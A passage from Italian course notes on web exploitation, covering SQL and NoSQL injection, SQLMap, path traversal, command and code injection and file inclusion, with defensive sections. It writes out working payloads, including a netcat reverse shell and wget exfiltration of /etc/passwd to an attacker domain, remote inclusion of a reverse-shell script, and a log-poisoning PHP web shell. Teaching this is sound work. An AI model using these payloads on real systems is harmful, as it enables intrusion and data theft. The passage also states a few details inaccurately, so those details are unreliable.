Come con LIKE, se restituisce i dati del post 345, la password inizia per "a", altrimenti se restituisce un errore, la lettera iniziale è un'altra. Seguono altri passaggi:

\begin{verbatim}
SELECT* FROM Posts WHERE id = 345 AND (SELECT * FROM Users WHERE username = ‘admin’ 
AND substring(password, 1, 2) = ‘ab’)
\end{verbatim}

\begin{verbatim}
SELECT* FROM Posts WHERE id = 345 AND (SELECT * FROM Users WHERE username = ‘admin’ 
AND substring(password, 1, 3) = ‘aba’)
\end{verbatim}

In scenari reali, a volte le differenze possono essere minori e in certi casi può succedere che il sito web sia vulnerabile a SQL Injection, ma \textbf{nessun elemento all'interno della pagina cambia comportamento} a seconda del risultato della query. 

\subsection{Time-Based SQL Injection}
Se il sito web è vulnerabile a SQL Injection ma gestisce gli errori del database affinché \textbf{non siano visibili} sul sito, semplici Blind SQL Injection saranno inefficaci.

Possiamo tuttavia ricorrere alle \textbf{Time-Based SQL Injection}, ovvero Blind SQL Injection con un aggiunta di ritardo di esecuzione, tramite funzioni come \verb|sleep()|.

Essendo le query SQL generalmente processate in modo \textbf{sincrono} dal sito web, ritardare l'esecuzione di una query SQL ritarda anche la risposta HTTP, permettendo quindi all'attaccante di verificare la correttezza di una query basandosi sul tempo preso per ricevere una risposta HTTP.

\subsubsection{Esempio con sleep()}
Un esempio di \textbf{Time-Based SQL Injection}, basandosi sempre sugli esempi precedenti:\\
\verb|SELECT* sleep(2) FROM Users WHERE username = ‘admin’ AND password LIKE ‘a%’|

Tale query SQL ritarda \textbf{la risposta del database di 2 secondi}, ma solo se la password dell’utente admin inizia per "a".

Sia per Blind che per la Time-Based SQL Injection, è opportuna che l'attaccante scripti tali bruteforce, in quanto sono operazioni dispendiose in termini di tempo se fatte manualmente.

\subsection{SQLMap (integrato su Kali)}
SQLMap è un \textbf{tool python open source} che automatizza il processo di \textbf{rilevamento} delle vulnerabilità e \textbf{sfrutta} le tecniche di SQL Injection per prendere possesso del database bersaglio. \\
È dotato di numerose funzionalità per il penetration testing e un'ampia gamma di opzioni, tra cui il \textbf{fingerprinting} del database, il \textbf{recupero dei dati} (dump) dal database, l'\textbf{accesso al file system sottostante} e l'\textbf{esecuzione di comandi} sul Sistema Operativo tramite \textbf{Reverse Shell}.

Prima di usare il tool, è bene conoscere i parametri che è possibile inserire. Tramite i comandi \verb|-h| o \verb|-hh| è possibile ottenere rispettivamente un elenco delle \textbf{opzioni base} o l'\textbf{elenco completo} delle opzioni utilizzabili. La completa documentazione è presente sul GitHub del tool:\\
\verb|https://github.com/sqlmapproject/sqlmap?tab=readme-ov-file| 

\subsubsection{Utilizzo del tool}
Per usare il tool, è necessario specificare un target. Supponendo che il parametro vulnerabile a SQL Injection è di \textbf{tipo GET}, si usa l'opzione \verb|-u| seguita dall'URL. Esempio:
\begin{verbatim}
	sqlmap -u “https://mio.sito/path?parametro=test” -b
\end{verbatim}

Se invece il parametro vulnerabile è di \textbf{tipo POST}, la sintassi cambia:
\begin{verbatim}
	sqlmap -u “https://mio.sito/path” --data="parametro=test" -b
\end{verbatim}

Negli esempi, per \textbf{enumerare} il database, è stato usato il parametro \verb|-b|, che recupera il banner del DBMS. Se invece volessimo ricavare lo schema del database, usiamo il parametro \verb|--schema|:
\begin{verbatim}
	sqlmap -u “https://mio.sito/path?parametro=test” --schema
\end{verbatim}

\subsubsection{Ottenere una Reverse Shell}
Tramite il parametro \verb|--os-shell| possiamo ottenere una shell per mezzo di \textbf{COPY[nomeTabella]FROM PROGRAM[comando]}:

\begin{verbatim}
	sqlmap -u “https://mio.sito/path?parametro=test” --os-shell
\end{verbatim}

Quello che avviene è questo:
\begin{itemize}
	\item Creiamo una tabella \textbf{comando} all’interno della quale vi è solo una colonna di tipo testo, chiamata \textit{output}: \verb|CREATE TABLE comando(output text);|
	
	\item Eseguiamo il comando (in questo caso, cat /etc/passwd ) e inseriamo il suo output all’interno della tabella \textbf{comando}: \verb|COPY comando FROM PROGRAM 'cat /etc/passwd';|
	
	\item Recuperiamo l’output dalla tabella \textbf{comando}. Generalmente SQLMap stampa in console l'output trovato:
	\verb|SELECT * FROM comando;|
	
	\item Eliminiamo la tabella \textbf{comando} in quanto non ci serve più: \verb|DROP TABLE IF EXISTS comando;|
\end{itemize}

Alternativamente, con \verb|--os-pwn| è possibile ottenere una Shell OOB, Meterpreter o VNC:

\begin{verbatim}
	sqlmap -u “https://mio.sito/path?parametro=test” --os-pwn
\end{verbatim}


\newpage
\subsubsection{Dump del database}
Tramite il parametro \verb|--dump| è possibile effettuare un \textbf{dump} del database:
\begin{verbatim}
sqlmap -u “https://mio.sito/path?parametro=test” --dump
\end{verbatim}

Vi sono inoltre anche alcune opzioni utilizzabili:
\begin{itemize}
	\item \verb|--dump-all| per fare il dump di \textbf{tutte le tabelle di tutti i database nel DBMS};
	\item \verb|--exclude-sysdbs| per escludere dal dump le tabelle e i db di sistema;
	\item \verb|--dump -D nomeDB| per fare il dump di uno specifico database;
	\item \verb|--dump -T nomeTab| per fare il dump dei contenuti di una specifica tabella;
	\item \verb|--dump -C nomeCol| per fare il dump dei contenuti di una specifica colonna.
\end{itemize}

\subsubsection{Conclusioni su SQLMap}
SQLMap è un ottimo tool, tuttavia bisogna attenzionare alcuni aspetti:
\begin{itemize}
	\item In un incarico di pentesting con \textbf{Bug Bounty Program} non bisogna effettuare dump quando si verifica la presenza di SQL Injection. In caso di contratti con aziende invece è autorizzato esclusivamente se vi è una clausula nel contratto che autorizza il dump dei DB;
	
	\item SQLMap può riportare che un sito web è vulnerabile ad SQL Injection, ma fallisca nel fare il dump o che consenta di estrapolare solo alcune informazioni; 
	
	\item SQLMap \textbf{genera molto rumore} ed è \textbf{sconsigliato} in attività di \textbf{red teaming}, a meno di usarlo insieme ad un proxy o TOR all'esterno della rete.
\end{itemize}

\subsection{NoSQL Injection}
In un database \textbf{non relazionale}, le SQL Injection non sono utilizzabili, in quanto questi database non usano SQL (spesso organizzano i dati tramite JSON), tuttavia è comunque possibile iniettare payload simili a quelli SQL visti in precedenza.

Questi payload sono chiamati \textbf{NoSQL Injection} e usano il formato \textbf{';payload}. Esse si verificano quando:
\begin{itemize}
	\item I dati in formato JSON iniettati all’interno di una richiesta inoltrata al database vengono interpretati come tali.
	
	\item Gli \textbf{operatori di paragone} (=, $<$, $>$, ...) iniettati all’interno di una richiesta inoltrata al database riescono a modificare la struttura della query.
\end{itemize}

\subsubsection{Esempio di NoSQL Injection con un form di login}
Supponiamo un form di login implementato in MongoDB con questa query NoSQL:
\begin{verbatim}
db.collection(collection).find({“username”:“$_POST[‘user’]”,
“password”:“$_POST[‘pass’]”}).limit(1)
\end{verbatim}

Potremmo provare a soddisfare le condizioni precedentemente elencate inserendo \textbf{admin} come \textit{username} e \verb|{“$gt”:“”}| come \textit{password}. La query diventerebbe:
\begin{verbatim}
db.collection(collection).find({“username”:“admin”, “password”:{“$gt”:“”}}).limit(1)
\end{verbatim}

\textbf{Perché funziona?}

\verb|{“$gt”:“”}| è un oggetto JSON: \verb|$gt|sta per il simbolo $>$, mentre la stringa vuota viene interpretata come \textbf{null}. Se questo oggetto \textbf{viene interpretato come codice}, viene trasformato nel valore \textbf{TRUE}, in quanto tutte le stringhe sono logicamente \textbf{maggiori di null}.

La query infine diventa:
\begin{verbatim}
db.collection(collection).find({“username”:“admin”, “password”:TRUE}).limit(1) 
\end{verbatim}
E accediamo come \textbf{admin}.

\subsubsection{QueryString}
QueryString (\textbf{qs}) è un modulo di NodeJS che converte  i parametri nelle \textbf{richieste HTTP in parametri JSON} intrepretando le parentesi quadre come \textbf{nuovo oggetto JSON}.

Il parser di QueryString trasforma il parametro da:
\verb|parametro[$operatore]=valore| \\a:
\verb|{parametro:{$operatore:valore}}|

In presenza di questo modulo, la richiesta a:
\begin{verbatim}
https://mio.sito/path?username=admin&password[$gt]=
\end{verbatim}
Viene tradotta in:
\begin{verbatim}
{“username”:“admin”, “password”:{“$gt”:“”}}
\end{verbatim}

\subsubsection{Altri esempi di NoSQL Injection}
\begin{itemize}
	\item \verb|username[$ne]=asdf&password[$ne]=asdf| - Questa query verifica se \textit{username} e \textit{password} \textbf{sono diversi da asdf} (tramite \verb|$ne|). Viene loggato il primo utente restituito dalla query.
	
	\item \verb|username[$nin] []=admin&username[$nin][]=user2&password[$ne]=asdf| - Questa query verifica se \textit{password} non è \textbf{asdf} e se \textit{username} \textbf{non si trova} (tramite \verb|$nin|) nella lista composta da \textbf{[admin, user2]}.\\ Con questo payload è quindi possibile enumerare gli utenti e loggarsi con ciascuno di essi.
	
	\item \verb|username=admin&password[$regex]=^.{10}$| - Questa query verifica se \textit{password} di \textbf{admin} ha 10 caratteri. Se la condizione è vera, viene effettuato il login.
	
	\item \verb|{"username": {"$eq": "admin"}, "password": {"$regex": "^a" }}| - Questa query verifica se \textit{password} di \textbf{admin} inizia per “\textbf{a}”. Se la condizione è vera, viene effettuato il login.\\
	Questo payload può essere utilizzato per \textbf{esfiltrare la password} tramite bruteforcing come con le Blind SQL Injection.
\end{itemize}

\subsection{NoSQLMap (non presente su Kali)}
Come SQLMap, \textbf{NoSQLMap} è un \textbf{tool open-source} scritto in python usato per automatizzare il processo di \textbf{ritrovamento} di vulnerabilità nei database NoSQL affinché si possa fare un \textbf{dump} del contenuto dei DB stessi.

Completa documentazione sul GitHub del tool:
\verb|https://github.com/codingo/NoSQLMap|

\subsection{Soluzioni alle SQL Injection}
La sanitizzazione contro SQL Injection, come con gli attacchi \textbf{client-side}, va fatta sempre \textbf{server-side}, in quanto \textbf{client-side} l'attaccante può rimuovere ogni forma di sicurezza aprendo la console.

\subsubsection{Escaping}
Il linguaggio con cui è programmato il sito web molto spesso possiede funzioni utili per fare \textbf{escaping}, come \verb|mysqli_real_escape_string()| in PHP.\\
Tuttavia implementare forme adeguate di escaping per coprire ogni query malevola non è facile e prono ad errori. Inoltre è una soluzione \textbf{poco efficace} contro SQL Injection, infatti supponendo una query come questa:
\begin{verbatim}
"SELECT Author, Post FROM Posts WHERE ID=”.htmlentities($_GET[‘id’])
\end{verbatim}

All’attaccante basta iniettare il payload \verb|-1 union select Username, Password from Users| per farsi stampare la lista completa delle credenziali. La query quindi diventa:
\begin{verbatim}
SELECT Author, Post FROM Posts WHERE ID=-1 union select Username, Password from Users
\end{verbatim}

\newpage
\subsubsection{Prepared Statements}
I \textbf{Prepared Statements} sono \textbf{template di query},  all’interno dei quali \textbf{non vengono specificati} alcuni parametri, che vengono sostituiti da un \verb|?|, che funge da placeholder.

L'applicazione web carica sul database lo statement \verb|INSERT INTO…|, ma non lo esegue, ed il DBMS resta in attesa dei parametri da inserire:
\verb|INSERT INTO Users VALUES (?,?,?,?)|

Quando il Prepared Statement viene richiamato, il database sostituisce i \verb|?| con i reali valori ed esegue l’operazione. Stavolta la separazione tra \textbf{formato della query} e \textbf{parametri} è ben chiara al database, e la SQL Injection \textbf{non} avviene.

\subsubsection{Object Relational Mapping (ORM)}
Un'altra soluzione sono le \textbf{librerie ORM}, che rimuovono la necessità per il programmatore di interagire con un database mediante query.

Il programmatore interagise nel suo linguaggio di preferenza con gli oggetti che rappresentano il database (le tabelle, i campi e i valori al suo intento). In questo modo è la libreria ORM che gestisce query ed escaping e il programmatore non deve scrivere codice SQL.

Ad esempio, in Entity Framework per \textbf{.NET}, se il programmatore volesse recuperare i post dell’utente \textbf{admin} con \textbf{più di 50 like}, potrebbe interagire con l’oggetto \textbf{db} nel seguente modo, ovvero senza fare una query tradizionale:
\begin{verbatim}
List<string> messaggiTop = db.Posts.Where(x => x.NomeUtente.Equals(“admin”) 
&& x.Likes > 50).ToList();
\end{verbatim}

La SQL Injection non funziona in quanto il database comprende correttamente il contesto della query.

\subsection{Eludere la Sanitizzazione - SQL Injection di secondo ordine}
Supponiamo che lo sviluppare del sito web abbia implementato una misura di sanitizzazione come \textbf{Prepared Statement} o una \textbf{libreria ORM}.\\
Il payload malevolo inserito dall'attaccante \textbf{non avrà} alcun effetto all'esecuzione della query, tuttavia nel caso l'attaccante riesca ad inserire tale payload nel database del sito da attaccare, è ancora possibile effettuare azioni malevole se il payload non è stato propriamente sanitizzato:
\begin{enumerate}
	\item L’attaccante inserisce il proprio payload all’interno di un form, il cui contenuto verrà salvato nel database;
	\item L’attaccante appende il proprio payload mediante SQL Injection, a valle di un \verb|INSERT INTO|;
	\item L’attaccante inserisce il proprio payload mediante SQL Injection, indipendentemente dalla query in atto.	
\end{enumerate}

Nel caso in cui altre query	utilizzassero in un secondo momento i contenuti della tabella in cui è stato iniettato il payload, \textbf{senza usare forme di sanitizzazione}, il payload potrebbe causare una \textbf{SQL Injection di secondo ordine}.

Questa vulnerabilià è comune con software di terze parti, dove lo sviluppatore del proprio sito \textbf{non ha controllo}. Se questo software è vulnerabile ad SQL Injection, i payload verrano eseguiti alla lettura del database.

\subsection{Falle Logiche}
Per accedere ai contenuti di un database in modo indebito, oltre alle SQL Injection, esistono le \textbf{falle logiche}, ovvero \textbf{errori nell'implementazione} del sito web.

È quindi possibile che si manifestino comportamenti inattesi dal sito web con determinati input, come:
\begin{itemize}
	\item Valori semanticamente errati (es. tipo della variabile errata);
	\item Valori semanticamente corretti ma logicamente errati nel contesto dell’applicazione (es. numero negativo invece che positivo);
	\item Valori semanticamente e logicamente corretti, ma gestiti erroneamente dall’applicazione.
\end{itemize} 
\newpage

\subsubsection{Insecure Direct Object Reference - IDOR}
Riconducendoci all'ultimo comportamento inatteso, spesso succede con la mancata (o erronea) verifica dell'autorizzazione dell'utente ad accedere ad una determinata risorsa, spesso a causa di API che consultano il database.

Supponiamo di poter accedere ai dettagli del nostro account su \verb|mio.sito| mediante l’URL \\\verb|mio.sito/myProfile.php|.\\
Tale pagina effettua una chiamata all’API \verb|mio.sito/api/getUserDetails?id=345| per recuperare i nostri dettagli dal database (come \textit{username} e \textit{password}) e li stampa a schermo.

Se le API del \verb|mio.sito|, cambiando l'ID della query da quello personale ad un altro, \textbf{non facessero alcun controllo} su chi è l’utente che sta cercando di accedere ai dettagli di quell’utente, l'attaccante potrebbe ottenere i dettagli di qualsiasi utente semplicemente cambiando l'ID inserito.

Questa vulerabilità si chiama \textbf{Insecure Direct Object Reference} ed è molto comune nelle applicazioni web.
Per proteggersi da quest'attacco, bisogna verificare che l'utente che sta cambiando l'ID può vedere i dettagli degli altri utenti tramite l'API \verb|getUserDetails|.\\
Se non ha l'accesso all'API, l'accesso ai dettagli degli altri utenti dev'essere bloccato.

\subsubsection{Ulteriori considerazioni}
Anche se immaginiamo che l’applicazione abbia una certa logica, non è detto che questa sia implementata correttamente, bisogna e verificare manualmente i comportamenti dell’applicazione con input diversi e/o scorretti dal punto di vista logico.

\newpage

\section{Web Exploitation - Server Side}
Infine trattiamo le vulnerabilità relative all'esecuzione di \textbf{codice arbitrario} su server.

\subsection{Path Traversal + File Disclosure}
\textbf{Path Traversal}, seppur non permette di per sé di eseguire codice arbitrario, è una vulnerabilità che porta a \textbf{File Disclosure}, ovvero la scoperta e l'esfiltrazione indebite da
parte dell’attaccante.

All’attaccante può interessare esfiltrare diversi file, ad esempio file di \textbf{configurazione}, file di \textbf{log}, il \textbf{codice sorgente} dell’applicazione attaccata, o altri \textbf{asset di valore} presenti sul file system del server.

Questa vulnerabilità può presentarsi ogni volta l'applicazione web utilizza funzioni per accedere (sia in \textbf{lettura} che in \textbf{scrittura}) a file del \textbf{file system}, se l'attaccante trova modo di alterare il \textbf{path} a cui si fa riferimento.

\subsubsection{Esempio di Path Traversal}
Supponiamo di avere dentro \verb|victim.site/fileViewer.php| questo comando:\\
\verb|echo file_get_contents($_GET[‘file’]);| 

Tale codice stampa sulla pagina (grazie al comando \verb|echo|) il contenuto del file passato in input col il parametro GET. Visitare il sito \verb|victim.site/fileViewer.php?file=01.txt| stamperebbe sulla pagina il contenuto di \textbf{01.txt}.

Tutto questo avviene grazie alla funzione \verb|file_get_contents()| che, se non \textbf{sanitizzata}, permette all'attaccante di iniettare payload malevoli per recuperare \textbf{altri file} a cui non dovrebbe avere accesso.

Un'esempio più critico è quello di visitare \verb|victim.site/fileViewer.php?file=/etc/passwd|, che stamperebbe sulla pagina il contenuto di \verb|7etc/passwd|, database che contiene tutti gli \textbf{hash delle password} di ogni account di un sistema Linux.	

\textbf{Perché funziona?}

Nel primo esempio, \verb|file=01.txt| è un path \textbf{relativo}, ovvero la navigazione parte dalla directory corrente.\\
Nel secondo esempio invece, \verb|/etc/passwd| è un path \textbf{assoluto}, simboleggiato da \verb|/| prima di \verb|etc|, quindi la navigazione \textbf{parte dalla root del file system}.

L'attaccante, grazie alla mancata sanitizzazione, potrebbe accedere a qualunque directory o file di cui conosca il \textbf{path}.

\subsubsection{Accesso al file system tramite path relativi}
Se la funzione \verb|file_get_contents()| dell'esempio precedente non accettasse l'inserimento di \textbf{path assoluti}, si potrebbe comunque aggirare questa limitazione usando le \textbf{cartelle speciali}:
\begin{itemize}
	\item \verb|./| $\Rightarrow$ Punta alla cartella \textbf{corrente};
	
	\item \verb|../| $\Rightarrow$ Punta alla cartella \textbf{parent}. Se siamo su \textbf{root}, la directory \verb|../| punterà alla \textbf{root stessa}; 	
	
	\item \verb|//| $\Rightarrow$ Viene convertito in \verb|/|
\end{itemize}

Potendo quindi usare solo \textbf{path relativi}, è possibile arrivare alla cartella \verb|/etc/passwd| tramite un payload come questo:
\begin{verbatim}
	victim.site/fileViewer.php?file=../../../etc/passwd
\end{verbatim}
Non conoscendo il \textbf{path di partenza}, potremmo anche creare un payload di questo tipo:
\begin{verbatim}
	victim.site/fileViewer.php?file=../../../../../../../../../../../etc/passwd
\end{verbatim}

\subsubsection{Ulteriori forme di Path Traversal}
\textbf{Prepended Path Traversal}
\begin{itemize}
	\item \verb|file_get_contents($_GET[‘file’]."/some/path/to/file.ext”);| - Qui \verb|$_GET[‘file’]| è pensato dallo sviluppatore come directory da concatenare al resto del path dato.
	
	\item \verb|file_get_contents($_GET[‘file’].".ext”);| - Qui \verb|$_GET[‘file’]| è pensato dallo sviluppatore (ad esempio) come filename senza estensione.
\end{itemize}
Tramite alcuni caratteri speciali è possibile far ignorare al web server ciò che viene dopo \verb|$_GET[‘file’]|.

\newpage

\textbf{Appended Path Traversal}
\begin{verbatim}
	file_get_contents("/some/path/to/”.$_GET[‘file’]);
\end{verbatim}
Qui \textbf{il path} è pensato dallo sviluppatore per essere concatenato \textbf{prima} di \verb|$_GET[‘file’]|.

\textbf{Appended and Prepended Path Traversal}
\begin{verbatim}
	file_get_contents("/some/”.$_GET[‘file’].“/path/to/headache.jpg”);
\end{verbatim}
Qui vi sono due \textbf{path}, uno per essere concatenato \textbf{prima} di \verb|$_GET[‘file’]| e uno per essere concatenato \textbf{dopo} \verb|$_GET[‘file’]|.

\subsubsection{Sanitizzare Path Traversal}
Le soluzioni migliori per \textbf{sanitizzare} le Path Traversal sono:
\begin{enumerate}
	\item Evitare di \textbf{richiamare file} tramite API del \textbf{file-system} usando input dell'utente;
	
	\item Usare delle \textbf{whitelist} per permettere solo determinati input dall'utente o verificare che l'input contenga solo \textbf{contenuti consentiti}, come \textbf{caratteri alfanumerici};
	\begin{itemize}
		\item Per convalidare gli input inseriti dall'utente, è buona pratica usare \textbf{funzioni ricorsive}.
		
		\item Dopo aver convalidato l'input, è importante aggiungerlo alla directory di base e utilizzare un'API del file system della piattaforma per canonizzare il percorso.
		Infine, bisogna verificare che il percorso canonizzato inizi con la directory di base prevista.
	\end{itemize}
	
	\item Usare \textbf{chroot} per circoscrivere il web server ai soli file di sua competenza. Tuttavia permetterebbe Path Traversal su tali file.
\end{enumerate}

Una soluzione pessima invece è usare delle \textbf{blacklist}, in quanto è difficile blacklistare tutti i payload malevoli e innumerevoli encoding.


\subsection{Command e Code Injection}
\textbf{Command e Code Injection} sono vulnerabilità che permettono all'attaccante di inserire da \textbf{input} codice malevolo, facendo in modo che il \textbf{web server} lo interpreti erroneamente e lo esegui. Inoltre:
\begin{itemize}
	\item Nel caso di \textbf{Command Injection}, viene iniettato dall’attaccante un comando che viene eseguito dalla \textbf{shell di sistema}.
	
	\item Nel caso di \textbf{Code Injection}, invece, il codice iniettato viene eseguito \textbf{direttamente dal web
	server}.
\end{itemize}

Analizziamo, tramite esempio, prima la Command Injection e la sua variante \textbf{Blind Command\\ Injection}.

\subsubsection{Esempio Command Injection}
Supponiamo di avere un sito \verb|victim.site/search.php| senza alcuna sanitizzazione:
\begin{verbatim}
	$output = shell_exec("ack ".$_GET[‘word’]);
	echo $output;
\end{verbatim}

Il comando \verb|ack| serve a cercare, all'interno del sistema, tutti i file che contengono una data stringa. Tale codice esegue il comando \verb|ack| tramite la shell di sistema, che non effettuando sanitizzazione, stampa nella pagina web \textbf{il risultato di tale comando}.

È possibile per l'attaccante usare caratteri speciali come \verb|;| per eseguire ulteriori comandi.

Volendo sfruttare questa vulnerabilità, l'attaccante potrebbe ad esempio visitare la pagina:
\begin{verbatim}
	victim.site/search.php?word=hello+world;+cat+/etc/passwd
\end{verbatim}
Il web server, dopo aver cercato "hello world", stamperebbe sulla pagina web il contenuto di \verb|/etc/passwd|.\\

\subsubsection{Separatori}
Riprendendo quest'ultimo esempio, il carattere speciale \verb|;| fungendo da \textbf{separatore}, ha permesso al payload di funzionare separando la ricerca di "hello world" tramite \verb|ack| e di concatenare tramite \verb|cat|, il path \verb|/etc/passwd|.

Esistono anche altri separatori utilizzabili a seconda di OS e web server, come \&\&, $||$, \verb|/n| e \verb|/r/n|.

Tutte le funzioni che permettono di eseguire comandi dalla \textbf{shell di sistema} potenzialmente \textbf{espongono} un sito web a Command Injection, quindi vanno usate con cautela.\\ Tra le tante funzioni, anche \verb|exec|, \verb|system| e \verb|popen| possono provocare simili effetti di \verb|ack|.

\subsubsection{Blind Command Injection}
Similmente alle Blind SQL Injection, dove l'attaccante non poteva il risultato delle query effettuate, nelle \textbf{Blind Command Injection} l'attaccante non può contare sulla visualizzazione a schermo	garantita da \verb|echo|. Supponendo di avere \verb|victim.site/blindsearch.php| affetta da Command Injection:
\begin{verbatim}
	$var = shell_exec("ack ”.$_GET[‘word’]);
	if (strlen($var) > 0)
		echo ("Something was found!”);
\end{verbatim}

L'attaccante può comunque exploitare la vulnerabilità visitando la pagina:
\begin{verbatim}
victim.site/search.php?word=test;+nc+<ip_attaccante>+<port>+-e+/bin/sh
\end{verbatim}
Il web server aprirà una \textbf{reverse shell} sulla macchina dell'attaccante.

\subsubsection{Ricercare la presenza di una Command Injection}
Per scoprire se un sito web è vulnerabile a Command Injection, sia normale che Blind, è buono utilizzare comandi più semplici:
\begin{itemize}
	\item \verb|sleep(3)| - Se il web server risponde alla nostra richiesta \textbf{in ritardo}, sappiamo che la Command Injection è possibile.
	
	\item \verb|wget https://dominio.attaccante/stringa| - Se l’attaccante vede arrivare \textbf{la richiesta dal web server}, la Command Injection è possibile.
	
	\item \verb|ping https://dominio.attaccante/| - Se l'attaccante vede \textbf{arrivare pacchetti dal web server}, la Command Injection è possibile.
	
	\item \verb|echo pwn3d > /dev/tcp/ip_attaccante/port| - Utilizzabile solo per Command Injection in bash, viene inviata la stringa “pwn3d” all’indirizzo e alla porta specificati.
\end{itemize}

Se il sito web non stampa a schermo il risultato della Command Injection, potrebbe essere necessaria una Blind Command Injection, si potrebbe usare \verb|Netcat|, un tool \textbf{open-source} per connessioni da \textbf{remoto}, tuttavia:
\begin{enumerate}
	\item Netcat potrebbe essere \textbf{disabilitato};
	\item Netcat è abilitato, ma l'attaccante \textbf{potrebbe non ricevere la connessione ugualmente}, a causa degli strumenti di protezione implementati dal web server attaccato.
	\item L’utilizzo di netcat \textbf{potrebbe sollevare degli alert}.
\end{enumerate}

Nei primi due casi, il sito web potrebbe essere vulnerabile ma a causa dei payload inseriti non si riesce ad aggirare le misure di sicurezza.\\
Nel terzo caso, il rumore causato dal tool potrebbe terminare un'attività di \textbf{red teaming}.

Nel caso in cui non si riesca ad aprire una \textbf{reverse shell}, è comunque possibile esfiltrare file dal web server utilizzando il \verb|wget|. Ad esempio, un payload che invia file \verb|/etc/passwd| al dominio dell'attaccante:
\begin{verbatim}
	wget --post-file /etc/passwd http://dominio.attaccante
\end{verbatim}  
\newpage

\subsection{Code Injection}
Le \textbf{Code Injection} sfruttano funzioni che eseguono il codice che viene loro passato in input.
Ad esempio, se un attaccante attacca un'applicazione PHP che contiene un istruzione \verb|eval()| (o \verb|evaluate| o \verb|assert|), potrà inserire codice PHP per sfruttare eventuali vulnerabilità.

Quindi la \textbf{Code Injection} dipende dal linguaggio utilizzato dal sito web.

\subsubsection{Esempio di Code Injection}
Prendendo ad esempio il codice di \verb|victim.size/add.php|:
\begin{verbatim}
	eval(“echo 5+”.$_GET[‘number’].“;”);
\end{verbatim}

In questo caso la funzione \verb|eval()| prende in input un numero dal parametro GET “number”, somma 5 ad esso e lo stampa a schermo.

Questa pagina è vulnerabile a Code Injection in quanto non presenta alcun tipo di \textbf{sanitizzazione} e che permetterebbe di inserire qualsiasi codice che verrebbe \textbf{eseguito} e stampato sulla pagina del sito web.

\subsection{File Inclusion}
Similmente alla Path Traversal, la \textbf{File Inclusion} è una vulnerabilità che permette di \textbf{includere file} all'interno del \textbf{file-system} del web server tramite la pagina web vulnerabile.\\
Questa vulnerabilità si verifica a causa di alcune \textbf{funzioni} che permettono alla pagina web di includere il contenuto di un file all'interno della pagina stessa e di \textbf{eseguire il codice stesso}.

Se la pagina \textbf{importata} proviene dallo stesso web server, si tratta \textbf{Local File Inclusion}, altrimenti se proviene da un web server\textbf{ esterno}, abbiamo una \textbf{Remote File Inclusion}.

\subsubsection{Remote File Inclusion}
Supponiamo di avere una pagina web vulnerabile a \textbf{File Inclusion} chiamata \verb|changeConfig.php| nel sito vittima \verb|victim.site|. Il codice vulnerabile della pagina è:
\begin{verbatim}
	include_once($_GET[‘user’]."-config-file.php”);
\end{verbatim}

Analizziamo la pagina:
\begin{itemize}
	\item La funzione \verb|include_once()| permette di importare altre pagine che verranno	interpretate come codice PHP.
	
	\item La pagina \verb|changeConfig.php| serve quindi a caricare un diverso file di configurazione in base al nome utente passato in input attraverso il parametro GET “\textbf{user}”.
	\begin{itemize}
		\item Se l’utente inserisce \textit{user} come nome utente, il web server carica sulla pagina il file\\ \verb|user-config-file.php| che si trova nella directory corrente.
	\end{itemize}
\end{itemize}

Tuttavia, non essendo presente alcun tipo di \textbf{sanitizzazione}, l'atttaccante può inserire, invece di un nome utente, un \textbf{path remoto} per ottenere una \textbf{reverse shell} dal web server, ad esempio:
\begin{verbatim}
	victim.site/changeConfig.php?user=https://dominio.attaccante/reverseShell.php%00
\end{verbatim}

Nel payload l'attaccante ha inserito un \textbf{null byte} dopo l'inserimento dell'indirizzo del suo sito web per tagliare fuori il 
\textbf{-config-file.php} alla fine dell'istruzione \verb|include_once| (non funziona più da PHP 5.3 o superiori).

\subsubsection{Local File Inclusion}
Supponendo che la vittima, dopo essere stato attaccato, implementa una forma di \textbf{sanitizzazione} sulla pagina web \verb|changeConfig.php|:
\begin{verbatim}
include_once($_SERVER[‘DOCUMENT_ROOT’]."/configFiles/”.$_GET[‘user’]."-config-file.php”);
\end{verbatim}

La sanitizzazione implementata impedisce ulteriori \textbf{Remote File Inclusion} in quanto la stringa\\ \verb|$_SERVER[‘DOCUMENT_ROOT’]| si assicura che il path (si solito \verb|/var/www/html/| o \verb|C:\inetpub\wwwroot\|) della risorsa caricata si trovi in \textbf{locale}.
\newpage
Tuttavia la pagina rimane ancora vulnerabile a \textbf{Local File Inclusion}, in quanto l'attaccante potrebbe usare \textbf{user} per fare eseguire codice di \textbf{altre pagine} di \verb|victim.site| all'interno di \verb|changeConfig.php| tramite \textbf{Prepended Path Traversal}:
\begin{verbatim}
	victim.site/changeConfig.php?user=altroFile.php%00
\end{verbatim}

\subsubsection{Da Local File Inclusion a Remote Code Execution (RCE)}
\textbf{Con Form di Upload}

Se \verb|victim.site| avesse anche un \textbf{form} per caricare file, come un immagine, l'attaccante potrebbe \textbf{caricarvi} \verb|reverseShell.php|, che diventerebbe un \textbf{file locale}.

Come prossimo passo, l'attaccante dovrebbe il path su dove è stata caricata l'immagine e successivamente dovrebbe eseguire il file per \textbf{ottenere la Reverse Shell}, ad esempio visitando:
\begin{verbatim}
	victim.site/changeConfig.php?user=../path/to/uploaded/files/reverseShell.php%00
\end{verbatim}

\textbf{Con Log Poisoning}

Se \verb|victim.site| non presentasse alcun form di upload (o se fosse ben sanitizzato), un ulteriore opzione per l'attaccante sarebbe quella di contaminare i \textbf{file di log}.

Sia \verb|x.y.z.w| l'\textbf{IP} di \verb|victim.site|. Tramite \textbf{netcat}, l'attaccante si può connettere al web server (tramite la porta 80): \verb|nc -nv x.y.z.w 80|

Successivamente l'attaccante invia la seguente stringa:
\verb|<?php echo shell_exec($_GET['cmd']);?>|

Il web server risponderà con un errore \textbf{400 "Bad Request"}. Tuttavia tale errore sarà presente anche \textbf{all’interno dei file di log}, dove verrà \textbf{inserito anche il payload} inviato dall’attaccante. 

Supponendo che il path del file di log sia: \verb|C:\xampp\apache\logs\access.log|, il contenuto del file sarà qualcosa di simile a:
\begin{verbatim}
	<ip_attaccante> - - [11/Gen/2022:17:49:32 +0100] " 
	<?php echo shell_exec($_GET['cmd']);?> " 400 1047
\end{verbatim}

Il payload quindi eseguirà, come comando di sistema, il contenuto della variabile GET "cmd". \\
All'attaccante adesso basta fare \textbf{Local File Inclusion} (usando Path Traversal) su \verb|user| per caricare i log sulla pagina e passare tramite \verb|cmd| i comandi di sistema di sua scelta. Un esempio sarebbe:
\begin{verbatim}
	victim.site/changeConfig.php?cmd=cat+/etc/passwd&user=
	../../../../../xampp/apache/logs/access.log%00
\end{verbatim}

\subsubsection{Sanitizzazione di File Inclusion}
